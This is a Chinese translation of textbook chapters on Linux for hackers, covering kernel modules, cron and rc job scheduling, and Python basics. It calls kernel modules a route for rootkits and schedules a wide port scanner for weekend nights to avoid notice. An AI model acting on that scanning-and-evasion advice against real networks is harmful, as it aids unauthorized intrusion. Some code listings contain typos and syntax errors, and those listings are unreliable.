要启用IP转发，请先在任何文本编辑器中打开/etc/sysctl.conf文件，并取消对IP转发行的注释。让我们用任何文本编辑器打开/etc/sycstl.conf并查看：

\#/etc/sysctl.conf ­ Configuration file for setting system variables

\# See /etc/sysctl.d/ for additional system variables.

\# See sysctl.conf (5) for information.

\#

\#kernel.domainname = example.com

\# Uncomment the following to stop low­level messages on console.

\#kernel.printk = 3 4 1 3

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#3

\# Functions previously found in netbase \#

\# Uncomment the next two lines to enable Spoof protection (reverse­path

\# Turn on Source Address Verification in all interfaces to

\# prevent some spoofing attacks.

\#net.ipv4.conf.default.rp_filter=1

\#net.ipv4.conf.all.rp_filter=1

\# Uncomment the next line to enable TCP/IP SYN cookies

\#

\# Note: This may impact IPv6 TCP sessions too

\#net.ipv4.tcp_syncookies=1

See http://lwn.net/Articles/277146/

\# Uncomment the next line to enable packet forwarding for IPv4

➊ \#net.ipv4.ip_forward=1

在相关行只需删除注释（＃）➊，即可启用IP转发。

从操作系统加固的角度来看，你可以通过给此文件添加行net.ipv4.icmp_echo_ignore_all=1
来禁用icmp
echo请求，以使黑客更难找到你的系统，但这并非完全没可能找到你的系统。添加该行后，您需要运行命令**sysctl
-p**。

### 管理内核模块

Linux至少有两种方法来管理内核模块。较旧的方法是使用围绕insmod
suite-insmod构建的一组命令代表插入模块，用于处理模块。第二种方法，使用**modprobe**命令，我们将在本章稍后使用。在这里，我们使用insmod套件中的**lsmod**命令列出内核中已安装的模块：

kali \>lsmod

Module Size Used by

nfnetlink_queue 20480 0

nfnetlink_log 201480 0

nfnetlink 16384 2 nfnetlink_log, nfnetlink_queue

bluetooth 516096 0

rfkill 0 2 bluetooth

­­snip­­

如你所见，lsmod命令列出了所有内核模块，以及有关它们的大小和其他模块可能使用它们的信息。因此，举个简单的例子——nf
netlink模块（一种用于内核和用户空间之间通信的基于消息的协议）是16384字节且由nf
netlink_日志模块和nf_netlink_队列模块使用。

从insmod套件中，我们可以使用insmod加载或插入模块，并使用rmmod删除模块，该模块代表remove模块。这些命令并不完美，可能没有考虑模块依赖性，因此使用它们会使内核不稳定或无法使用。因此，Linux的现代发行版现在添加了modprobe命令，该命令自动加载依赖项并使加载和删除内核模块的风险降低。我们马上就会介绍modprobe。首先，让我们看看如何获得有关我们模块的更多信息。

#### *使用modinfo查找更多信息*

要进一步了解任何内核模块，我们可以使用**modinfo**命令。这个命令的语法很简单：modinfo后加入你想要了解的模块的名称。举个例子，如果要检索先前运行lsmod命令时看到的蓝牙内核模块的基本信息，可以输入以下内容：

kali \>modinfo bluetooth

filename: /lib/modules/4.6.0­kali­amd64/kernel/net/bluetooth/bluetooth.ko

alias: net­pf­31

license: GPL

version: 2.21

description: Bluetooth Core ver 2.21

author: Marcel Holtman \<marcel\@holtmann.org\>

srcversion: FCFDE98577FEA911A3DAFA9

depends: rfkill, crc16

intree: Y

vermagic: 4.6.0­kali1­amd64 SMP mod_unload modversions

parm: disable_esco: Disable eSCO connection creation (bool)

parm: disable_ertm: Disable enhanced retransmission mode (bool)

如你所见，modinfo命令显示有关此内核模块的重要信息，这是在系统上使用蓝牙所必需的。
请注意，在许多其他事情中，它列出了模块依赖项：rfkill和crc16。
依赖项是必须安装的模块才能使蓝牙模块正常运行。

通常，在排除特定硬件设备无法正常工作的原因时，这是有用的信息。除了注意依赖项之外，还可以获取有关模块版本和模块开发内核版本的信息，然后确保它们与您运行的版本相匹配。

#### *使用modprobe添加和删除模块*

Linux的大多数新版本，包括Kali
Linux，都包含用于LKM管理的modprobe命令。要将模块添加到内核，可以将modprobe命令加-a（add）选项一起使用，如下所示：

kali \>modprobe -a \<module name\>

要删除模块，请使用modprobe的-r（remove）选项，并在其后加入模块名称：

kali \>modprobe -r \<module to be removed\>

使用modprobe而不是insmod的一个主要优点是modprobe了解依赖项，选项以及安装和删除过程，并且在进行更改之前会考虑所有这些因素。因此，使用modprobe添加和删除内核模块更容易，更安全。

#### *插入和删除内核模块*

让我们尝试插入和移除测试模块，以帮助你熟悉此过程。让我们设想一下，你刚刚安装了一个新的显卡，并且需要为它安装驱动程序。记住，设备的驱动程序通常直接安装在内核中，以便为它们提供正确运行所需的访问权限。这也为恶意黑客安装rootkit或其他监听设备提供了肥沃的土壤。

让我们假设出于演示目的（不要实际运行这些命令），我们要添加一个名为HackersAriseNewVideo的新视频驱动程序。你可以通过输入以下内容将其添加到内核中：

kali \>modprobe -a HackersAriseNewVideo

要测试新模块是否正确加载，你可以通过运行dmesg命令来知道，该命令从内核打印出消息缓冲区，然后过滤“video”内容，并查找任何指示问题的警报：

kali \>dmesg \| grep video

如果有任何内核信息中包含“video”一词，它们将显示在这里。如果没有显示任何内容，则没有包含该关键字的信息。

然后，要删除相同的模块，可以输入相同的命令，但使用-r（remove）选项：

kali \>modprobe -r HackersAriseNewVideo

请记住，可加载的内核模块对Linux用户/管理员来说是一种便利，但它们也是一个主要的安全漏洞，也是专业黑客应该熟悉的漏洞。
正如我之前所说，LKM可以成为让你的rootkit进入内核并造成严重破坏的完美工具！

### 总结

内核对于操作系统的整体操作至关重要，因此，它是一个受保护的区域。
任何无意中添加到内核中的东西都可能破坏操作系统甚至控制它。

LKM使系统管理员能够将模块直接添加到内核中，而不必每次添加模块时都重新构建整个内核。

如果黑客可以诱使系统管理员添加恶意LKM，则黑客可以完全控制系统，通常这不会让系统管理员意识到。

16
--

使用作业调度自动化任务
----------------------

AUTOMATING TASKS WITH JOB SCHEDULING

像任何使用Linux的人一样，黑客经常有他们想要定期运行的任务、脚本或其他任务。例如，你可能希望为你的系统设置一个自动文件备份，
或者你希望像我们在第11章做的那样转存日志文件。另一方面，黑客可能希望每天晚上或者在他们工作或上学的时候让他们的系统运行第8章里的
MySQLscanner.sh脚本。这些都是调度自动化作业的例子。调度任务允许你在无须考虑的情况下运行任务，并且你可以在不使用系统的时候运行调度任务，这样你就有了大量的空闲资源。

Linux系统管理员，或者是黑客，可能希望在系统启动时自动启动特定的脚本或服务。在第12章，我们讲述了使用PostgreSQL
数据库和黑客/渗透测试框架 Metasploit 关联。比起每次启动Metasploit
前手动启动PostgreSQL数据库，你可以让PostgreSQL（或者是任何服务或脚本）在系统启动时自动启动。

在本章节，你将学到如何使用**cron**守护进程和**crontab**设置一个脚本，让其甚至在系统无人操作时自动运行。你还将学到如何设置开机时自启动脚本，从而为你提供运行黑客攻击时所需的必要服务。

### 任务调度或使其自动运行

cron守护程序和crontab是用于调度常规任务的最有用的工具。
第一个是crond，它是一个在后台运行的守护进程。cron守护程序检查cron列表以在指定时间运行哪些命令。
我们可以更改cron列表，以安排任务或工作在特定日期或时间，每天特定时间或每隔这么多周或几个月定期执行。

想要调度一个任务或作业，需要在/etc/crontab
目录下的crontab文件里输入它们。crontab列表有七个字段：前五个字段用于计划运行任务的时间，第六个字段指定用户，第七个字段用于要执行的命令的绝对路径。如果我们使用crontab来调度脚本，我们可以将脚本的绝对路径放在第七个字段里。

五个时间字段中的每一个都代表一个不同的时间元素：按顺序来是分钟、小时、日、月、周。时间的每一个元素都必须用数字表示，所以3月表示为3（你不能直接输入“March”）。周从0开始，就是代表周日，到7结束，也是代表周日。表16­1总结了这个。

表 16­1: crontab里的时间表示

| 时间单位         | 表示 |
|------------------|------|
| Minute           | 0-59 |
| Hour             | 0-23 |
| Day of the month | 1-31 |
| Month            | 1-12 |
| Day of the week  | 0-7  |

因此，如果我们编写了一个扫描全球易受攻击的开放端口的脚本，并希望它在周一到周五的凌晨2:30运行，我们可以在crontab文件中调度它。我们将简要介绍如何将这些信息输入crontab，但首先让我们讨论需要遵循的格式，如代码清单列表16-1所示。

M H DOM MON DOW USER COMMAND

30 2 \* \* 1­5 root /root/myscanningscript

清单16­1: 调度命令的格式

crontab文件已经帮助您标记了列。注意第一个字段提供分钟(30)，第二个字段提供小时(2)，第五个字段提供周(1-5,
周一到周五)，第六个字段定义了用户(root)，第七个字段是脚本的路径。第三个和第四个字段包含了星号
(\*)，因为我们希望这个脚本在每周一至周五启动，而不在意是几月几日。

在配置列表16-1
中，第五个字段使用数字间的短横杠（-）定义了周的范围。如果你希望在非连续的周执行脚本，你可以用逗号（,）将值分开。例如周二和周四就是2,4。

要编辑crontab，可以运行crontab命令，后面接 **-e**（编辑）选项：

kali \>crontab -e

Select an editor. To change later, run 'select­editor'.

1. /bin/nano \<­­­­easiest

2. /usr/bin/mcedit

3. /usr/bin/vim.basic

4. /usr/bin/vim.gtk

5. /usr/bin/vim.tiny

Choose 1­5 [1]:

第一次运行此命令时，它将询问你要使用哪个编辑器。默认值为/bin/nano，选项1。如果选择此选项，它将直接打开crontab。

另一个选择是直接在你最喜欢的文本编辑器中打开crontab，这对于Linux新用户来说说更好的选择，你可以这样做：

kali \>leafpad /etc/crontab

我已经使用命令用Leafpad打开了crontab。你可以在清单16-2中看到文件片段。

\# /etc/crontab: system­wide crontab

\# Unlike any other crontab, you don't have to run the 'crontab'

\# command to install the new version when you edit this file

\# and files in /etc/cron.d. These files also have username fields,

\# which no other crontabs do.

SHELL=/bin/sh PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

\# m h dom mon dow user command

17 \* \* \* \* root cd / && run­parts ­­report /etc/cron.hourly

25 6 \* \* \* root test ­x /usr/sbin/anacron II ( cd / && run­parts

47 6 \* \* 7 root test ­x /usr/sbin/anacron II ( cd / && run­parts

52 6 1 \* \* root test ­x /usr/sbin/anacron II ( cd / && run­parts

\#

清单16­2: 使用文本编辑器打开crontab文件

现在，要设置一个新的定期计划任务，只需新输入一行并保存文件。

#### *设置一个备份计划任务*

让我们从系统管理员的角度看这个工具。作为一个系统管理员，作为系统管理员，你经常希望在当系统未被使用，资源随时可用时，每小时备份所有文件。（系统备份往往需要工作时间无法提供的系统资源。）理想的时间可能是周末的午夜。而不是必须在周六晚上/周日早上2点登录（我确定你当时还有其他优先事项），你可以安排备份在那个时候自动启动，即使你不在你的电脑旁。

注意小时字段使用24小时制而不是AM和PM制，所以例如下午1点是13：00。并且注意周字段（DOW）从周日开始（0）到周六结束（6）。

要想创建任务，你只需要编辑crontab文件，添加固定格式的一行。所以，假设你想要创建一个使用一个叫“backup”的用户运行的备份任务。你需要写一个用于备份系统的脚本并保存为/bin目录下的systembackup.sh，然后让这个备份脚本每周六晚上/周日早上2点启动，在crontab中添加下行：

00 2 \* \* 0 backup /bin/systembackup.sh

注意 \* 通配符是用来表示
“任何”，并且使用在日，月，或周里使用它将读作每日或每月。如果你阅读这行，它表示：

1. 在0分，每个小时的开始 (00)，

2. 在2点(2)，

3. 在每日 (\*)，

4. 在每月 (\*)，

5. 在周日 (0)，

6. 作为backup用户，

7. 运行位于/bin/systembackup.sh的脚本。

cron守护进程将在每月周日早上2点执行那个脚本。

如果你只希望在每月15号和30号备份，而不管那天是周几，你需要修改crontab，如下所示：

00 2 15,30 \* \* backup /root/systembackup.sh

注意日字段 (DOM) field 现在是
15,30。这告诉系统只在每月15日和30日运行脚本，大概每两周运行一次。当你想指定多个日、多个小时或多个月时，你需要用逗号分隔它们，就像我们在这里所做的那样。

接下来，让我们假设公司需要你对备份特别谨慎。即使在停电或系统崩溃的情况下，也不能损失一天的数据。你就需要每周晚上备份，如下所示：

00 23 \* \* 1­5 backup /root/systembackup.sh

这个任务会在晚上11点 (hour
23)，每日每月，但只在周一到周五运行。尤其要注意我们使用短横杠分隔（-）表示周一到周五（1-5）。这也可以用
1,2,3,4,5表示，两种方法都行。

#### *使用 crontab计划执行 MySQLscanner*

现在你已经了解了使用crontab命令计划任务的基本知识，让我们计划MySQLscanner.sh脚本，这是你在第8章写的用来搜寻开启的MYSQL端口的脚本。这个扫描器查看3306端口来搜索运行MySQL的系统。

要将MySQLscanner.sh
输入到crontab文件中，需要就像我们在系统备份中做的那样编辑文件。我们会计划让他在你工作的时候运行，这样它就不会在你使用家里电脑的时候占用资源。输入下面一行到你的crontab文件：

00 9 \* \* \* user /usr/share/MySQLsscanner.sh

我们预计设置了让任务在00分，9点，每月每日每周使用常规用户运行。我们只需要简单地保存crontab文件。

下载，假设你希望特别小心，并且只在周末上午2点当其他人不太可能盯着网络流量时运行这个扫描器。你也只希望在夏天6到8月运行，如下所示：

00 2 \* 6­8 0,6 user /usr/share/MySQLsscanner.sh

你会像这样把它添加到crontab文件：

\# /etc/crontab: system­wide crontab

\# Unlike any other crontab, you don't have to run the 'crontab'

\# command to install the new version when you edit this file

\# and files in /etc/cron.d. These files also have username fields,

\# which none of the other crontabs do.

SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

\# m h dom mon dow user command

17 \* \* \* \* root cd / && run­parts ­­report /etc/cron.hourly

25 6 \* \* \* root test ­x /usr/sbin/anacron II ( cd / && run­parts ­­report
/etc/cron.daily

)

47 6 \* \* 7 root test ­x /usr/sbin/anacron II ( cd / && run­parts ­­report

/etc/cron.weekly )

52 6 1 \* \* root test ­x /usr/sbin/anacron II ( cd / && run­parts ­­report

/etc/cron.monthly )

00 2 \* 6-8 0,6 user /usr/share/MySQLsscanner.sh

现在，你的MySQLscanner.sh只会在六月，七月，八月的周末早上两点启动。

#### *crontab快捷方式*

crontab文件有些内置的快捷方式，用来代替具体的时间，日期，月份。它包含这些：

-   \@yearly

-   \@annually

-   \@monthly

-   \@weekly

-   \@daily

-   \@midnight

-   \@noon

-   \@reboot

所以，如果你希望MySQL扫描器每天午夜运行，你可以添加下行到crontab文件：

\@midnight user /usr/share/MySQLsscanner.sh

### 使用RC 脚本开机运行任务

每当你启动Linux系统时，都会运行一些脚本来为您配置环境。这些脚本就是rc脚本。在内核初始化并加载了所有模块之后，内核将启动一个守护进程叫做
init 或
init.d。这个守护进程开始运行/etc/init.d/rc中的一些脚本。这些脚本包括一些命令，用于启动运行Linux系统所需的服务。

#### *Linux运行级别*

Linux有多个运行级别，用于指示启动时需要启动哪些服务。例如，运行级别1
是单用户工作状态，类似于网络一样的服务不会是 运行级别.
rc脚本会根据运行级别运行。

*0* 系统停机状态

*1* 单用户工作状态

*2–5*多用户状态

*6* 重启

#### *将服务添加到rc.d*

你以使用update-rc.d命令为rc.d脚本添加启动时要运行的服务。此命令允许你从rc.d脚本中添加或删除服务。update-rc.d
的语法很简单，输入命令，后面输入脚本的名字然后输入动作，像这样：

kali \>update-rc.d \<name of the script or service\>

\<remove\|defaults\|disable\|enable\>

举个update-rc.d的例子，假设你总是希望PostgreSQL
数据库在系统启动时运行，这样你的Metasploit
框架可以使用它储存黑客攻击和渗透测试的结果。你需要使用update-rc.d添一行到你的rc.d脚本来让它每次系统启动时运行。

在你做这件事之前，检查PostgreSQL是否已经在你的系统中运行来。你可以使用ps命令然后使用grep导出到过滤器来查找PostgreSQL，像这样：

kali \>ps aux \| grep postgresql

root 3876 0.0 0.0 12720 964pts/1 S+ 14.24 0.00 grep postgresql

结果告诉我吗只有我们的查询进程包含了PostgreSQL字段，所以现在没有PostgreSQL数据库在这个系统上运行。

现在，更新我们的rc.d来让PostgreSQ启动时自动运行：

kali \>update-rc.d postgresql defaults

这会添加一行到rc.d文件。你需要重启系统来让更改生效。当你做完后，再使用ps命令和grep查找PostgreSQL进程：

kali \>ps aux \| grep postgresql

postgresql 757 0.0 0.1 287636 25180 ? S March 14

0.00 /usr/lib/postgresql/9.6/bin/postgresql ­D

/var/lib/postgresql/9.6/main

­c config_file=/etc/postgresql/9.6/main/postgresql.conf

root 3876 0.0 0.0 12720 964pts/1 S+ 14.24 0.00 grep postgresql

可以看到，在我们没有手动输入任何命令的情况下，PostgreSQL
正在运行。它在你系统启动时自动运行来，等待你使用Metasploit！

### 通过GUI添加开机启动服务

如果你更习惯使用GUI添加服务，你可以从kali源下载基本的基于GUI的工具rcconf，像这样：

kali \>apt-get install rcconf

安装完成后，可以通过输入以下内容启动rcconf：

kali \>rcconf

这会打开一个GUI，像图16­1中的那样。你可以滑动查看可用的服务，选择一个你希望开机启动的，然后点OK。



*图16­1: rcconf GUI 添加开机启动服务*

在图中，你可以看到PostgreSQL
服务在倒数第二个。按空格键选择这个服务，按TAB键高亮\<Ok\>，然后按ENTER键。下次启动Kali时，PostgreSQL将会自动启动。

### 总结

系统管理员和黑客都经常需要计划服务，脚本和工具有间隔地运行。Linux
允许你使用cron守护进程计划几乎任何脚本或工具，就是从crontab运行这些任务。并且，你可以让使用命令
update-rc.d或基于GUI的工具rcconf 更新 rc.d 脚本来让服务开机自动启动。

17
--

黑客的PYTHON脚本基础
--------------------

PYTHON SCRIPTING BASICS FOR HACKERS

基本的脚本编程能力对于黑客来说是十分必要的。如果没有学习基本的脚本编程技能，一个只会用别人开发的工具的新手黑客会被骂成脚本小子。这意味着你只能使用别人开发的工具，这降低了你成功的可能性，并且增加了你被反病毒软件、入侵检测系统和执法部门检测到的可能性。如果你有脚本编程技能，你可以将你的黑客水平提升一个层次！

在第8章节，我们讲述了bash脚本基础和编写一些基本脚本，包括MySQLScanner.sh，这是用来寻找运行常见的MySQL数据库的系统。在这一章节，我们会讲述被黑客使用最广泛的脚本语言：Python。很多最受欢迎的黑客工具是用Python编写的，包括sqlmap，scapy，Social-Engineer
Toolkit（SET），w3af，等。

Python
有一些重要的功能，这使它特别适合黑客行为，但是最重要的是它有一个种类繁多的库（可以被从外部导入和重复使用的预编译代码模块）它提供了一些强大的功能。Python
包括超过1000多内置模块，其他代码仓库里还有更多。

开发黑客工具也可以使用其他编程语言，例如bash，Perl和Ruby，但是Python的模块让开发这些工具变得特别简单。

### 添加PYTHON模块

安装Python时，还要安装一组标准库和模块，这些库和模块提供广泛的功能，包括内置数据类型，异常处理，数字和数学模块，文件处理，加密服务，网络数据处理以及与Internet的交互协议（IP）。

先不提标准库和模块提供的强大功能，你可能需要或想要额外的第三方模块。Python的第三方模块多种多样，并且可能是多数黑客选择使用Python编写脚本的原因。你可以在PyPI
(the Python Package Index, 图17­1)
<http://www.pypi.org/>里找到全面的第三方模块列表。



*图17-1：Python包索引*

#### *使用pip*

Python 有一个专门用于安装和管理Python包的包管理软件叫pip (Pip Installs
Packages)。由于我们在这使用Python 3，你需要Python 3
的pip来下载和安装包。你可以从Kali源上下载pip，输入这条命令：

kali \>apt-get install python3-pip

现在，为了供PyPI上下载模块，你只需要输入这个：

kali \>pip3 install \<package name\>

当你下载这些包的时候，他们会被自动放在/usr/local//lib/\<python­version\>/dist­packages目录。所以，举个例子，如果你使用pip安装来Python3.6的SNMP协议，你可以在/usr/local/lib/python3.6/pysnmp中找到它。如果你不清楚包被放在系统的什么位置（有事不同的Linux发行版使用不同的目录），你可以输入
pip3 后面跟上show 和包的名字, 如下所示：

kali \>pip3 show

pysnmp Name: pysnmp

Version: 4.4.4

Summary: SNMP library for Python

Home­page:

https://github.com/etingof/pysnmp Author:

Ilya Etingof \<etingof\@gmail.com\>

Author­email: etingof\@gmail.com

License: BSD

Location: usr/local/lib/python3.6/dist­packages

Requires: ptsmi, pyansl, pycryptodomex

你可以看到这给了你很多关于包的信息，包括包所在的目录。

作为使用pip的替代，你可以直接从网站上下载包（注意要下载到合适的目录），解压它（如果解压软件参见第九章），然后运行下面的命令：

kali \>python setup.py install

这会安装任何已解压但是没安装的包。

#### *安装第三方模块*

要想安装其他Python社区成员开发的第三方模块（和官方发布的Python包相反），你可以简单地用wget从储存它的网站上下载它，解压模组，然后运行python
setup.py install命令。

作为示范，让我们从网站https://xael.org下载和安装我们在第八章使用过的端口扫描工具，nmap，的Python模组。

首先，我们需要从xael.org下载模块。

kali \>wget http://xael.org/norman/python/python-nmap/python-nmap-0.3.4.tar.gz

­­2014­12­28 17:48:32­­

http://xael.org/norman/python/python­nmap/python­nmap­ 0.3.4.tar.gz

Resolving xael.org (xael.org)...194.36.166.10

Connecting to xael.org (xael.org)\|194.36.166.10\|:80...connected.

­­snip­­

2018­21­28 17.48:34 (113 KB/s) ­ 'python­nmap­0.3.4.tar.gz' saved [40307/40307]

你可以看到我们使用wget命令和整个URL下载包。当包被下载好后，你需要用tar命令解压它，就像你在第九章学到的那样：

kali \>tar -xzf python-nmap-0.3.4.tar.gz

然后进入新的目录：

kali \>cd python-nmap-.03.4/

最后，在那个目录，使用下面的命令安装新的模块：

kali \>\~/python-nmap-0.3.4 \>python setup.py install

running install running build

running build_py creating build

­­snip­­

running install_egg_info

writing /usr/local/lib/python2.7/dist­packages/python_nmap­0.3.4.egg.info

其他无数的模块也可以使用这个方法。当你安装了这个nmap模块后，你可以通过导入模块在你的Python脚本中使用它。这个之后再说，现在让我们开始编写一些脚本。

### 开始使用*Python*编写脚本

现在你知道了如何在Python中安装模块，我希望概况一些Python基本的概念和术语，然后是基本语法。在这之后，你将编写一些对黑客有用的脚本，希望这展示Python的强大。

就像bash或其他脚本一样，我们可以使用任何文本编辑器创建Python脚本。在本章，为了使事情变得简单，我建议你使用一个简单地文本编辑器，例如Leafpad，但要知道Python有集成开发环境
IDE。一个IDE就像一个有内置功的文本编辑器，比如代码颜色，
故障排除，和编译。Kali内置 IDE PyCrust
，不过还有很多IDE可以下载，最好的就是富有争议的JetBrain的PyCharm。这是一个很好的IDE，它有很多让学校Python变得更容易和快捷的增强功能。它有一个付费的专业版本和一个免费的社区版本。你可以在https://www.jetbrains.com/pycharm/找到它。

当你完成这一章时，如果你想继续学习Python，PyCharm
将会是一个会在你开发时帮助你的绝佳工具。现在，为了让事情变得简单，我们将使用像Leafpad一样的基本文本编辑器。

注意学习任何编程语言会花费时间和大量精力。你需要在继续之前有耐心地掌握我提供的每一个小脚本。

#### *变量*

现在，开始讲一些更实用的Python概念。一个变量is是编程中最基本的数据形式，并且你在第八章bash脚本编程中遇到过它。简单来说，一个变量是一个名字关联着一个特定的值，当你在任何时间在程序里使用哪个名字，它会调用那个关联的值。

它的原理是变量名指向内存中的数据，它们可以包含任何种类的值，例如整数，实数，字符串，浮点数，布尔值（true或false），列表，或字典。我们将在本章节简要的概括这些。

为了熟悉基础，让我们用Leafpad创建一个简单地脚本，如代码清单17-1，并保存为hackers­arise_greetings.py。

\#! /usr/bin/python3 name="OccupyTheWeb"

print ("Greetings to " + name + " from Hackers­Arise. The Best Place to Learn
Hacking!")

*清单17­1: 你第一个Python程序*

第一行就是告诉你的系统你希望它使用Python解释器运行这个程序，而不是其他任何语言。第二行定义了一个变量叫name并且给它赋值（在这里是
"OccupyTheWeb"），你应该把这个值改成你自己的名字。这个变量的值是string
数据格式,，意味着其内容需要被引号包起来，然后以处理文本的方式处理它。你也可以把数字放进字符串，然后它们也会被处理文本的方式处理，也就是说你不能在数字运算中使用它们。

第三行创建了一个print()声明将Greetings to和name变量的值连起来，紧随其后的文本“
from Hackers-Arise. The Best Place to Learn Hacking! ”，一个
print()声明将在屏幕上显示任何你放入其圆括号里的东西。

现在，在你开始运行脚本之前，你需要授权你执行它的权限。我们需要chmod命令完成这件事。（更多Linux权限相关信息参见第五章）

kali \>chmod 755 hackers-arise_greetings.py

就像你第8章对bash脚本所做的，要想运行你的脚本，在脚本名前加上句号和斜杠。由于安全原因你当前目录不在\$PATH变量中，所以我们需要在脚本名前加上./
来告诉系统查看当前目录来找到文件并执行它。

输入下面的命令运行这个脚本：

kali \>./hackers-arise_greetings.py

Greetings to OccupyTheWeb from Hackers­Arise. The Best Place to Learn Hacking!

在Python中，每个变量类型会被当成一个类。一个类是一种创建对象的模板。详情请查看《bject­Oriented
Programming
(OOP)》第92页。在下面的脚本中，我展示了一些变量类型。变量可不只容纳字符串。清单清单
17-2展示了一些含有不同变量类型的变量。

\#! /usr/bin/python3

HackersAriseStringVariable = "Hackers­Arise Is the Best Place to Learn Hacking"

HackersAriseIntegerVariable = 12

HackersAriseFloatingPointVariable = 3.1415

HackersAriseList = [1,2,3,4,5,6]

HackersAriseDictionary = {'name' : 'OccupyTheWeb', 'value' : 27)

print (HackersAriseStringVariable)

print (HackersAriseIntegerVariable)

print (HackersAriseFloatingPointVariable)

*清单 17­2: 一系列被变量关联的数据结构*

这个脚本创建了五个含有不同数据结构的变量：一个字符串，被当作文本；一个整数，是没有小数，可以被用来进行数字运算的数字；一个浮点数，是一个有小数，可以被用来进行数字运算的数字；一个列表，是一系列存到一起的值；和一个字典，是一个无序的数据集，每个值对应一个键，意思是字典中的每个值有一个唯一的键。当你希望查询或更改一个键对应的值时，这就很方便。例如，比方说你有个叫fruit_color的字典，如下所示：

fruit_color = {'apple' : 'red', 'grape' : 'green', orange : 'orange'}

如果之后你希望获得fruit_color的grape，你只需要使用他的键调用它：

print (fruit_color['grape'])

你也可以更改键对应的值，例如，我们在这更改apple的颜色：

fruit_color['apple'] : 'green'

我们将在之后讨论列表和字典。

使用任何文本编辑器创建脚本，保存为secondpythonscript.py，然后授予你执行的权限，像这样：

kali \>chmod 755 secondpythonscript.py

当你运行这个脚本时，它会打印字符串变量，整数变量和浮点数变量的值，像这样：

kali \>./secondpythonscript.py

Hackers­Arise Is the Best Place to Learn Hacking 12

3.1415

#### *注释*

与任何其他编程和脚本语言一样，Python也可以添加注释。注释是代码的一部分—单词，句子甚至段落—用来解释代码作用。
Python将识别代码中的注释并忽略它们。尽管不需要注释，但是当你两年后回到代码中并且不记得它应该做什么时，注释会非常有用。程序员经常使用注释来解释某个代码块是用来做什么的，或者解释选择特定方法背后的逻辑。

注释会被解释器忽略。这意味着任何注释行会被解释器跳过，直到遇到合法行。Python使用\#符号表示单行注释的开头。如果你想要编写多行注释，你可以在注释段的开头和结尾使用三个双引号（"""）。

你可以看到下面的脚本，我已经在我们的hackers­arise_greetings.py脚本中添加了简短的多行注释。

\#! /usr/bin/python3

"""

This is my first Python script with comments. Comments are used to help explain
code to ourselves and fellow programmers. In this case, this simple script
creates a greeting for the user.

"""

name = "OccupyTheWeb"

print ("Greetings to "+name+" from Hackers­Arise. The Best Place to Learn
Hacking!")

当我们再次执行脚本时，与上次执行脚本相比没有任何变化，你可以看到：

kali \>./hackers-arise_greetings.py

Greetings to OccupyTheWeb from Hackers­Arise. The Best Place to Learn Hacking!

它和清单17­1运行一模一样，但当我们之后回来看代码的时候，我们有了些关于我们脚本的信息。

#### *函数*

Python中的函数是执行特定操作的代码。例如之前使用的print()就是一个显示任何你给予的值的函数。python有许多内置函数，您可以立即导入和使用。绝大多数函数存在于Kali
Linux默认安装的Python中，尽管更多的函数可以从下载的库中获取。让我们来看一下可以使用的数千个函数中的几个：

-   exit() 退出程序。

-   float() 以浮点数的形式返回其参数。例如，float（1）将返回1.0。

-   help() 显示由其参数指定的对象的帮助。

-   int() 返回其参数的整数部分（截断小数部分）

-   len() 返回列表或字典中的元素数。

-   max() 返回其参数（列表）的最大值。

-   open() 以其参数指定的模式打开文件。

-   range() 返回由其参数指定的两个值之间的整数列表。

-   sorted() 将列表作为参数，并返回排好序的列表。

-   type() 返回其参数的类型（例如int、file、method、function）。

您也可以创建自己的函数来执行自定义任务。由于语言中已经内置了如此多的函数，所以在您自己构建函数之前，检查函数是否已经存在总是值得的。检查的方法有很多种，其中一个是查看https://docs.python.org的Python官方文档。选择你正在使用的版本选择任何参考库。

#### *列表*

许多编程语言使用数组存储多个独立对象。数组是一个值列表，可以通过引用数组中的特定值在列表中的位置（称为其索引）实现检索、删除、替换或处理这些值。

值得注意的是，与许多其他编程环境一样，python从0开始计算索引，因此列表中的第一个元素是索引0，第二个元素是索引1，第三个元素是索引2，依此类推。所以，如果我们想要获取第三个值，我们可以使用array[2]。在Python中，几乎没有数组的实现，但最常见的实现可能是lists。

python中的列表是可迭代的，这意味着当你运行它时，列表可以提供连续的元素（请参见第198页）。这很有用，因为通常，当我们使用列表时，我们会查看它们以找到某个值，逐个打印出值，或者从一个列表中获取值并将其放入另一个列表中。我们可以通过调用列表的名称然后接方括号和我们想要获取元素的索引来访问和打印该元素。

所以，让我们想象我们需要显示列表17­2中列表HackersAriseList中的第四个元素。

要测试这个，请在脚本secondpythonscript.py底部添加以下行，以打印HackersAriseList索引3处的元素：

­­snip­­

print (HackersAriseStringVariable)

print (HackersAriseIntegerVariable)

print (HackersAriseFloatingPointVariable)

print (HackersAriseList[3])

